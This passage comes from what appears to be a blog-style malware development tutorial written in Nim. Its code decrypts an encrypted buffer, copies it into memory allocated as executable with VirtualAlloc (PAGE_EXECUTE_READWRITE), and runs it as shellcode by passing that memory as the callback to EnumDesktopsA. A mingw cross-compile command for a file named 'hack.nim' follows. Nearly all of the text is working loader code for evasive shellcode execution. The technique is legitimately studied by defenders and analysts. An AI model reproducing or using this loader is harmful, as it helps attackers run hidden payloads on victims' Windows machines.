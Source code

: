 ```nim
    decrypt(box, chunk)
    copyMem(addr decrypted[i], addr chunk, sizeof(chunk))

  echo "\nencrypted:"
  for b in encrypted:
    stdout.write &"{b:02x} "
  echo "\n\ndecrypted:"
  for b in decrypted[0 ..< data.len]:
    stdout.write &"{b:02x} "
  echo "\n"

  if decrypted[0 ..< data.len] == data:
    echo "encryption and decryption successful. =^..^="
  else:
    echo "failed :("

  let mem = VirtualAlloc(NULL, cast[SIZE_T](data.len), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
  RtlMoveMemory(mem, unsafeAddr decrypted[0], cast[SIZE_T](data.len))
  let shellcodeProc = cast[DESKTOPENUMPROCA](mem)
  discard EnumDesktopsA(GetProcessWindowStation(), shellcodeProc, 0)
```

### demo

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

![cryptography](/assets/images/151/2025-04-03_14-32.png){:class="img-responsive"}     
